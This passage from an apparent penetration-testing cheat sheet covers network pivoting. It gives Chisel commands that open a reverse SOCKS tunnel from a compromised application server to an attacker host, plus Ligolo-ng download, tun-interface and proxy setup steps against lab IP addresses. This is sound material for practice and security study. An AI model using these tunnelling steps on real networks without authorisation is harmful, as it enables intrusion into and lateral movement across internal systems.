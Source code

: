 - LHOST > APPLICATION SERVER > NETWORK

##### LHOST

```console
$ ./chisel server -p 9002 -reverse -v
```

##### APPLICATION SERVER

```console
$ ./chisel client 192.168.50.10:9002 R:socks
```

### Ligolo-ng

> https://github.com/nicocha30/ligolo-ng

| System             | IP address     |
| ------------------ | -------------- |
| LHOST              | 192.168.50.10  |
| APPLICATION SERVER | 192.168.100.10 |
| DATABASE SERVER    | 10.10.100.20   |
| WINDOWS HOST       | 172.16.50.10   |

- LHOST > APPLICATION SERVER > NETWORK

#### Download Proxy and Agent

> https://github.com/nicocha30/ligolo-ng/releases

```console
$ wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_Linux_64bit.tar.gz
$ wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_Linux_64bit.tar.gz
```

#### Prepare Tunnel Interface

```console
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```console
$ sudo ip link set ligolo up
```

#### Setup Proxy on LHOST

```console
$ ./proxy -laddr 192.168.50.10:443 -selfcert
```

#### Setup Agent on APPLICATION SERVER
